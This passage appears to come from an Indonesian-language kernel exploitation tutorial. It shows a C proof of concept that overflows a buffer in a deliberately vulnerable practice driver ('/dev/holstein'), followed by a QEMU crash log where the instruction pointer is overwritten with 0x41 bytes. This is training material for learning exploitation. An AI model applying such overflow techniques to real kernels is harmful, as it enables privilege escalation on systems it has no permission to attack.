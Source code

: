 ```c
#define _GNU_SOURCE
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<fcntl.h>
#include<string.h>
#include<sys/ioctl.h>

#define ERR(msg)                                                               \
     do {                                                                      \
     perror(msg);                                                              \
     exit(EXIT_FAILURE);                                                       \
    } while (0)



int main()
{
    char buff[0x420];
    memset(buff,0x41,sizeof(buff));

    int fd = open("/dev/holstein", O_RDWR);
    if(fd==-1){
        ERR("open(DEV)");
    }else{
        puts("perangkat terbuka");
    }

    write(fd,buff,0x420);

    close(fd); //module_close() akan dipanggil lalu g_buff dibebaskan menggunakan kfree()
}

```

kita jalankan kembali qemu dan gdb dan picu breakpoint. akhirnya kita mendapatkan masalah seperti ini:

```bash
perangkat terbuka
general protection fault: 0000 [#1] PREEMPT SMP NOPTI
CPU: 0 PID: 162 Comm: exploit Tainted: G           O      5.10.7 #1
Hardware name: QEMU Ubuntu 24.04 PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-14
RIP: 0010:0x4141414141414141
Code: Unable to access opcode bytes at RIP 0x4141414141414117.
RSP: 0018:ffffc90000567eb8 EFLAGS: 00000202
RAX: 0000000000000420 RBX: ffff8880033c1500 RCX: 0000000000000000
RDX: 000000000000007f RSI: ffffc90000567ea8 RDI: ffff8880033cd000
RBP: 4141414141414141 R08: ffffffff81ea4608 R09: 0000000000004ffb
R10: 00000000fffff000 R11: 3fffffffffffffff R12: 0000000000000420
R13: 0000000000000000 R14: 00007ffd9bbbbca0 R15: ffffc90000567ef8
FS:  00000000004ba380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 4141414141414141 CR3: 000000000336a000 CR4: 00000000003006f0
Call Trace:
 ? ksys_write+0x53/0xd0
 ? __x64_sys_write+0x15/0x20
 ? do_syscall_64+0x38/0x50
 ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
Modules linked in: vuln(O)
---[ end trace aa16eb9ba4a7f0db ]---
RIP: 0010:0x4141414141414141
Code: Unable to access opcode bytes at RIP 0x4141414141414117.

```